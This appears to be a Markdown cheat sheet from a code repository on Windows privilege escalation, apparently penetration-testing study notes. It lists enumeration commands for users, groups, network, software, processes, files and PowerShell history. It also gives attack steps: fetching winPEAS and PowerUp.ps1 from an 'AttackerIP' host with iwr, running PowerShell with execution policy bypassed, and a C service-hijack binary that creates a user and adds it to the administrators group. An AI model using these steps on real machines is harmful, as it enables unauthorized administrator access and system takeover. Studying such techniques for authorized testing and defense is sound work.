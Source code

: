 # Escalation

Cli escalation in current directory: `powershell.exe -Command "Start-Process cmd \"/k cd /d %cd%\" -Verb RunAs"`

## Info

### Users

```
whoami
whoami /priv
whoami /groups
net user
get-localuser
```

### Groups

```
Get-LocalGroup
Get-LocalGroupMember somegroup
```

### System

Windows versions: https://en.wikipedia.org/wiki/List_of_Microsoft_Windows_versions#/media/File:Windows_Version_History.svg
```
ver
systeminfo
```

### Network

```
ipconfig
ipconfig /all
route print
netstat -ano
```

### Programs

Invoke-command: https://devblogs.microsoft.com/scripting/use-powershell-to-find-installed-software/
```
Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, Publisher, InstallDate |
Format-Table -AutoSize
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Registry keys: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.management/get-childitem?view=powershell-7.3
```
Get-ChildItem -Path HKLM:\HARDWARE
```

### Processes

source: https://stackoverflow.com/questions/31374644/get-process-location-path-using-powershell
```
Get-Process
Get-Process -name someprocess |  % { $_.Path + " " + $_.Id}
Get-Process | Select-Object Path
Get-Process | Select-Object -ExpandProperty Path
Get-Process | ForEach-Object {$_.Path}
(Get-Process -Name someprocess).path
(Get-Process -Id someid).path
```

## Other searches

### Files

```
Get-ChildItem -Path C:\ -Include *.extension -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path C:\*.txt -Recurse -Force
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue | select-object name
```

### History
```
Get-History
(Get-PSReadlineOption).HistorySavePath
```

### WinPeas (Seatbelt, JAWS)

```
cd /usr/share/peass/winpeas/winPEASx64.exe
python3 -m http.server 8088
iwr -uri http://AttackerIP/winPEASx64.exe -Outfile winPEAS.exe

seatbelt.exe -group=all
```
Tools:
- https://github.com/carlospolop/PEASS-ng
- https://github.com/GhostPack/Seatbelt
- https://github.com/r3motecontrol/Ghostpack-CompiledBinaries
- https://github.com/Marshall-Hallenbeck/compiled_binaries
- https://github.com/411Hall/JAWS

## Services

```
Get-CimInstance -ClassName win32_service | Select Name, StartMode, State, PathName | Where-Object {$_.State -like 'Running'}
Get_ACL
icacls
```

### Hijacking

#### Manual

```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user someuser somepass /add");
  i = system ("net localgroup administrators someuser /add");
  
  return 0;
}

x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```

#### Auto

```
cd /usr/share/windows-resources/powersploit/Privesc/
python3 -m http.server 80

iwr -uri http://AttackerIP/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile
```





